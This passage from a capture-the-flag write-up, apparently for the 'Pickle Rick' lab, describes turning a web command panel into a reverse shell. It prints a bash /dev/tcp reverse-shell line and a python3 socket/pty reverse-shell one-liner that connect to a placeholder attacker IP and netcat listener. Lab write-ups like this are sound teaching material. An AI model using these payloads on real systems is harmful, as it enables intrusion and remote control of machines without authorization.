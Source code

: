 > 1 jerry tear

At this point, there are no more clues, no more notes, but there is a third ingredient somewhere! Exhausting Bash command through our command panel seems not to do us any good. So for the command panel's final act, it will help gain a reverse shell into the machine. Knowing that we can run Bash, maybe we can use that to gain a reverse shell where we can use more commands and gives us a little more power

Turning to [the reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) we look for the Bash reverse shell to be ran. We set up our netcat listener on any port that we wish and run `bash -i >& /dev/tcp/<attacking ip/<port> 0>&1` looks promising - eeehh, that's a no.


All hope is lost. No, there is another... language we can use to possible gain a foothold. Ubuntu comes with another language called python, in which there is two versions python2 and python3. Now `which python` does it have? This gives us nothing. How about `which python3`? There it be, python3. Taking a look back to the cheatsheet shows that python can be utilized to gain a reverse shell. First, we set up our netcat listener

![netcat](../../../static/writeupimgs/picklerickimgs/picklerickimgs/netcat.png)

Then execute payload `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacking ip>",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`


![Reverse Shell](../../../static/writeupimgs/picklerickimgs/reverseshell.png)
